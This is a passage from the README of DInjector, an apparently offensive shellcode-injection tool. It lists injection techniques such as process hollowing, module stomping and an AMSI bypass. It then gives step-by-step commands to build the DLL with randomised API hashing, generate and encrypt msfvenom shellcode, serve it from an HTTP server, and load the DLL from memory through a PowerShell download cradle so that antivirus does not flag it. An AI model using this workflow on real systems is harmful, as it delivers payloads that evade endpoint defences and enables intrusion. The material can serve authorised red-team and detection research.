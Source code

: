     + [RemoteThreadView](#remotethreadview)
    + [RemoteThreadSuspended](#remotethreadsuspended)
    + [RemoteThreadKernelCB](#remotethreadkernelcb)
    + [RemoteThreadAPC](#remotethreadapc)
    + [RemoteThreadContext](#remotethreadcontext)
    + [ProcessHollowing](#processhollowing)
    + [ModuleStomping](#modulestomping)
    + [Utils](#utils)
      - [AM51](#am51)
      - [SpawnProcess](#spawnprocess)
      - [Unhooker](#unhooker)
  * [Credits](#credits)

## Basic Usage

1. Compile the project in Visual Studio (1) or via [OffensivePipeline](https://github.com/snovvcrash/OffensivePipeline/releases/tag/v0.8.2) (2):

```console
PS (1) > git clone -b dev --single-branch https://github.com/snovvcrash/DInjector.git
PS (1) > cd DInjector/DInjector
PS (1) > python .\randomize_api_hashing.py
PS (1) > devenv /build Release DInjector.sln
PS (1) > ls .\bin\Release\DInjector.dll

PS (2) > curl https://github.com/snovvcrash/OffensivePipeline/releases/download/v0.8.2/OffensivePipeline_v0.8.2_DInjector.zip -o OffensivePipeline.zip
PS (2) > Expand-Archive .\OffensivePipeline.zip -DestinationPath .\OffensivePipeline
PS (2) > cd OffensivePipeline
PS (2) > .\OffensivePipeline.exe t DInjector
PS (2) > ls .\Output\DInjector_*\DInjector.dll
```

2. Generate a shellcode of your choice:

```console
~$ msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f raw -o shellcode.bin
```

3. [Encrypt](encrypt.py) the shellcode:

```console
~$ ./encrypt.py shellcode.bin -p 'Passw0rd!' -o enc
```

4. Serve the encrypted shellcode:

```console
~$ sudo python3 -m http.server 80
```

5. Use the PowerShell download [cradle](/cradle.ps1) to load DInjector.dll as `System.Reflection.Assembly` and execute it from memory.

:warning: The assembly will very likely be flagged if put on disk!

